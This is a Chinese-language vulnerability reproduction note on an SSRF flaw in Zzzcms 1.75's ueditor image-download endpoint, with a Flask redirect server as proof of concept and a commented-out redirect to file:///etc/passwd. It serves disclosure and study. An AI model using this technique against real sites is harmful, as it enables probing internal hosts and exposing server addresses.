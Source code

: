 Zzzcms 1.75 ssrf
================

一、漏洞简介
------------

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

### 漏洞分析

功能实现在

    plugins/ueditor/php/controller.php

![](./.resource/Zzzcms1.75ssrf/media/rId25.png)

传入的post参数进入safe\_url函数进行处理，然后传入down\_url函数。这里safe\_url函数作用不大，主要是在down\_url中的逻辑。

在down\_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![](./.resource/Zzzcms1.75ssrf/media/rId26.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file\_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

    from flask import Flask,redirect,request
    app = Flask(__name__)
    @app.route('/1.txt')
    def index(page_name=''):
        #return redirect('file:///etc/passwd', code=301) #not work
        return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=9000, debug=app.debug)

![](./.resource/Zzzcms1.75ssrf/media/rId27.png)

![](./.resource/Zzzcms1.75ssrf/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/7414
